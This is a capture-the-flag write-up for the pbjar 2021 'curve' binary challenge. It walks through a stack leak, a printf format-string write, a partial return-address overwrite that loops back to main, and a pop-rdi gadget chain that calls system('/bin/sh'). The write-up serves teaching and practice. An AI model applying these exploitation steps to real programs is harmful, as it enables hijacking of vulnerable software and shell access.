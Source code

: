 # Write Up

## Challenge: **pbjar/2021/pwn/curve**

### Initial Research
---

`! first thing first`

```console
❯ file curve
curve: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter ./ld-2.31.so, for GNU/Linux 3.2.0, BuildID[sha1]=e8fe3eece1912689d5e47acaf76c1dca070f4ad8, not strippe
```

```console
❯ pwn checksec curve
[*] '/home/whoami/ctfs/pbjar/pwn/curve/curve'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

`! everything is on`

`! ghidra time`

```c
undefined8 main(void)
{
  ...
  char local_98 [136];
  ...
  puts("Input 1:");
  read(0,local_98,0xb0);
  puts(local_98);
  ...
}
```

>! obviously, read is overflowing the stack by 0xb0-136=40 bytes

>! but canary says sorry

>! okay, let's see what puts can leak from the stack

```console
(gdb) x/22gx $rbp-0x90
0x7fffffffd890: 0x0000000000000000      0x0000000000000000
0x7fffffffd8a0: 0x0000000000000000      0x0000000000000000
0x7fffffffd8b0: 0x0000000000000000      0x0000000000000000
0x7fffffffd8c0: 0x0000000000000000      0x0000000000000000
0x7fffffffd8d0: 0x0000000000f0b5ff      0x00000000000000c2
0x7fffffffd8e0: 0x00007fffffffd907      0x0000555555555325
0x7fffffffd8f0: 0x0000000000000000      0x0000000000000000
0x7fffffffd900: 0x00005555555552e0      0x00005555555550b0
0x7fffffffd910: 0x00007fffffffda10      0xd6438ff453680d00
0x7fffffffd920: 0x00005555555552e0      0x00007ffff7e2cd0a
0x7fffffffd930: 0x00007fffffffda18      0x0000000100000000
```

`! we can leak only one of these -`
+ `a stack address`
+ `an address where curve loaded`
+ `an address where libc loaded if we go through canary`

`? what else, and only else`

```c
undefined8 main(void)
{
  ...
  char local_98 [136];
  ...
  __format = (char *)malloc(0x80);
  ...
  puts("Input 2:");
  read(0,local_98,0x80);

  puts("\nInput 3:");
  read(0,__format,0x80);
  printf(__format);
  free(__format);
  return 0
}
```

`? printf`

`! this will allow us to leak the data from the stack`

`! and to write the random locations where the data from the stack is pointed to`

`! or if we combine with input 2, we can write an arbitrary location, as it's writing into the stack`

### Thought flow
---
`! leak the stack address using input 1`

`! write the shell code and the main return address pointer into the stack using input 2`

`! modify the main return address on the stack with the shell code address using printf`

`! execution will be redirected`

```diff
+ stack address can be leaked
+ main return address pointer can be calculated
+ shell code and pointer can be combined
+ still can modify the main return address with a painful printf bandwidth, as we can only write one pointer on the stack
- unfortunately stack is not executable: FULL RELRO
```
`! we can still redirect the execution where ever we want`

`? any system call in the program`

`! not found`

`! wait we can't know any other address to jump if we need stack address for redirection`

`! stuck`

`! wait original return address might be useful`

`! oh, i can only modify a part of it`

`! that would allow to jump some special location with proper alignment`

`! let's see what is interesting there`

```console
(gdb) disas 0x00007ffff7e2cd0a
   ...
   0x00007ffff7e2cd03 <+227>:   mov    rax,QWORD PTR [rsp+0x10]
   0x00007ffff7e2cd08 <+232>:   call   rax
   0x00007ffff7e2cd0a <+234>:   mov    edi,eax
   0x00007ffff7e2cd0c <+236>:   call   0x7ffff7e44660 <exit>
   ...
(gdb) x/i $rsp+0x10
   0x555555555195 <main>:       push   rbp
```
`! interesting`

`! if we change the least significant byte of the return address from 0x..0a to 0x..03, the main will be called again`

`! perfect`

`! now we can leak everything from the memory with printf, as the program will not end`

`! the payload would be like "111%{}$hhn %{}$lx ..."`

`! the first format is to modify the return address and else to leak`

`? now what`
```diff
+ able to write to any amount of memory locations as we can loop back to mean
+ a libc address can be leaked
+ system address can be calculated
+ can redirect to system
- rdi needs to be loaded with string pointer pointed to "/{program_path}"
```

`? how to call system properly without shell code`

`! stuck`

`! oh wait, pop rdi; ret; will call the system cause we have full control of stack`

`! if we found those instructions on any loaded program by any chance, we can redirect to there with a crafted stack`

`! let's see the shell code of those instructions real quick`

```console
❯ echo -e "pop rdi\nret" > pop-rdi-ret.asm
❯ nasm -f elf64 pop-rdi-ret.asm
❯ objdump -d pop-rdi-ret.o
...
0000000000000000 <.text>:
   0:   5f                      pop    %rdi
   1:   c3                      retq
```

`! search for 0x5f 0xc3 in ghidra`

```console
        undefined __libc_csu_init()
...
        0010133a 41  5f           POP        R15
        0010133c c3              RET
```

`! it's in the csu init`

`! we can jump to 0x..3b instead of 0x..3a`

`! that will pop the rdi and return`

`! before return to there, stack format should be`

```
* rsp
| address_to_0x5f0xc3 | bin_sh_address | system_address |
```

```diff
+ __libc_csu_init address can be calculated from leaked address
+ /bin/sh can be written to heap
+ heap address is also leaked
```

`! perfect`

`! review` [exploit.py](exploit.py) `for implementation`